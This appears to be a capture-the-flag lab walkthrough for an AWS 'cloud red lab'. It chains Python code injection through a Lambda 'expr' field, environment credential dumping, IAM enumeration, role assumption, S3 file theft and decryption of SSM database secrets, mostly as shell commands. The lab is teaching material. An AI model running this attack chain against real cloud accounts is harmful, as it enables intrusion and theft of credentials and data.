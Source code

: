 # Initial Access

```bash
# Set the lambda URL
export LAMBDA_URL=''

# Set the credentials.
curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"2+2"}' 
```

![](../artifacts/images/aws/1.png)

Command Execution payload: `__import__(\"os\").popen(\"id\").read()`

```bash
curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"id\").read()"}' 

curl -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"whoami\").read()"}' 
```

![](../artifacts/images/aws/2.png)

```bash
curl -s -X POST $LAMBDA_URL -H "Content-Type: application/json" -H "X-EVAL-TOKEN: Sup3r53cr37-70k3n" -d '{"username":"admin","password":"39d25d9e1d5d793c062f3f6e62da13377ec5a1a1fc1e60f650b1f3c566bcdb42","expr":"__import__(\"os\").popen(\"env\").read()"}' | jq '.result' | sed 's/\\n/\n/g'
```

![](../artifacts/images/aws/3.png)

```bash
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=
```

![](../artifacts/images/aws/4.png)

```bash
aws sts get-caller-identity
```

![](../artifacts/images/aws/5.png)

# Enumeration

```bash
# Fetches a list of all IAM roles in your AWS account
aws iam list-roles

aws iam list-roles --query 'Roles[].{Name:RoleName,ARN:Arn}' --output table
```

![](../artifacts/images/aws/6.png)

```bash
# Fetches complete details about the role named cloud-red-lab-s3-reader
aws iam get-role --role-name cloud-red-lab-s3-reader
```

![](../artifacts/images/aws/7.png)

```bash
# Lists managed policies attached to the given role.
# “Managed” means they are standalone IAM policies that can be attached to multiple roles/users/groups.
aws iam list-attached-role-policies --role-name cloud-red-lab-s3-reader --output json

# List inline policies for a role.
aws iam list-role-policies --role-name cloud-red-lab-s3-reader --output json
```

![](../artifacts/images/aws/8.png)

![](../artifacts/images/aws/9.png)

> Task: Read the policy for cloud-red-lab-lambda-role

```bash
# Fetches metadata about the managed policy (not the policy content yet).
aws iam get-policy --policy-arn arn:aws:iam::097564616454:policy/cloud-red-lab-s3-reader-policy

# Retrieves the actual policy document (JSON) for the specified version (v1 in this case).
aws iam get-policy-version --policy-arn arn:aws:iam::097564616454:policy/cloud-red-lab-s3-reader-policy --version-id v1
```

![](../artifacts/images/aws/10.png)

![](../artifacts/images/aws/11.png)

# Lateral Movement and Privilege Escalation

```bash
# Assume a role using its ARN
aws sts assume-role --role-arn "$ROLE_ARN" --role-session-name 'student-lab' --duration-seconds 1800
```

![](../artifacts/images/aws/12.png)

```bash
# Set the Short Term Credentials
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

# Verify the identity of the caller
aws sts get-caller-identity
```

![](../artifacts/images/aws/13.png)

# Data Exfiltration

```bash
# List files on the s3 bucket
aws s3 ls s3://cloud-red-lab-internal-5975a1/

# Copy files from the s3 bucket to the local machine.
aws s3 cp s3://cloud-red-lab-internal-5975a1/flag2.txt .
aws s3 cp s3://cloud-red-lab-internal-5975a1/secret_reader_creds.txt .
```

![](../artifacts/images/aws/14.png)

# Persistence

```bash
# Set the Short Term Credentials
export AWS_ACCESS_KEY_ID=
export AWS_SESSION_TOKEN=

# Verify the identity of the caller
aws sts get-caller-identity
```

![](../artifacts/images/aws/15.png)

# Extracting Crown Jewel

```bash
# This command lists metadata about SSM parameters in your AWS account
aws ssm describe-parameters
```

![](../artifacts/images/aws/16.png)

```bash
# retrieves the value of a Systems Manager parameter (optionally decrypted if it’s a SecureString).
aws ssm get-parameter --name "/cloud-red-lab/flag3" --with-decryption
aws ssm get-parameter --name "/cloud-red-lab/db/username" --with-decryption
aws ssm get-parameter --name "/cloud-red-lab/db/password" --with-decryption
```

![](../artifacts/images/aws/17.png)


```bash
#aws rds describe-db-instances lists detailed information about all RDS database instances in your AWS account (like endpoint, engine, status, and storage) in JSON format.
aws rds describe-db-instances --output json
```

![](../artifacts/images/aws/18.png)



Final Task: Connect to the DB and get the flag.

